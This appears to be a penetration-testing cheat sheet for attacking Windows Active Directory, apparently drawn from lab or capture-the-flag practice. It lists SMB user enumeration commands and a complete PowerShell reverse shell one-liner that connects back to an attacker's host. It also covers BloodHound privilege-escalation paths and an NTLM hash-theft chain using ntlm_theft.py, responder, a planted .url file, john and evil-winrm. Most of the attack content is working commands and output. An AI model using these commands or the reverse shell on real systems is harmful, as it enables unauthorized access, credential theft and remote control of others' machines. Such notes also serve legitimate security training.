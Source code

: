 **when enumerate smb shares and we have read access to ```IPC$``` share, We will be able to list the domain users as ```anonymous``` using different tools:**

1- ```lookupsid.py anonymous@<target ip>```<br>
#OR<br>
```lookupsid.py <username>@<target ip>``` #if we have valid creds <br>

2- ```crackmapexec smb <target ip> -u 'guest' -p '' --rid-brute```

----------------------------------------------------------------------------------------------------------------------

**if we do not know the domain name we could use ```crackmapexec``` to dump some cool information:**
```
crackmapexec smb <target ip>
                                                                  
SMB         10.10.250.17    445    VULNNET-BC3TCK1  [*] Windows 10.0 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
```
#OR 
Use ```enum4linux```:
```
enum4linux <target ip>
```
----------------------------------------------------------------------------------------------------------------------

**Powershell reverse shell**

```
$client = New-Object System.Net.Sockets.TCPClient('<OUR ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

----------------------------------------------------------------------------------------------------------------------

transitive object control in bloodhound
---

In BloodHound, "transitive object control" refers to an attack path where an attacker gains indirect control over a sensitive object (such as a user, group, or computer) by exploiting multiple relationships or permissions in Active Directory. This often results from a chain of misconfigurations where control over one object enables control over another, eventually leading to higher privileges, such as Domain Admin.<br>
Transitive control **occurs** when an attacker doesn’t have direct control over a target object but can use their control over another object to eventually gain access to the target.
For example:

    Attacker controls UserA.
    UserA has control over GroupB.
    GroupB contains a privileged user, like a Domain Admin.
    The attacker can then leverage control over UserA to modify GroupB and escalate privileges

----------------------------------------------------------------------------------------------------------------------


If we know there is activity in the share, we can try dropping a file to the share that will **force the user to authenticate to our server** when a user browses the share.


Using ```ntlm_theft.py``` to create a malicious ```.url``` file.
	
```
$ python3 ntlm_theft.py -g url -s 10.11.63.57 -f test
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Generation Complete.
```
Running responder to spin up a server that will respond to the authentication requests made.
	
```
$ sudo responder -I tun0
```
Uploading the generated file to the vuln share.
	
```
smb: \> cd onboarding\
smb: \onboarding\> put "test-(icon).url"
putting file test-(icon).url as \onboarding\test-(icon).url (0.4 kb/s) (average 0.3 kb/s)
```
After some time we get the hash.
<br>
Then we could use john to crack the hash.
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
```

**Using ```evil-winrm``` to get a shell**

Using the credentials we have, we can use ```evil-winrm``` to get a shell.
	
```
$ evil-winrm -i <domain name> -u '<user we got>' -p 'his password'
```





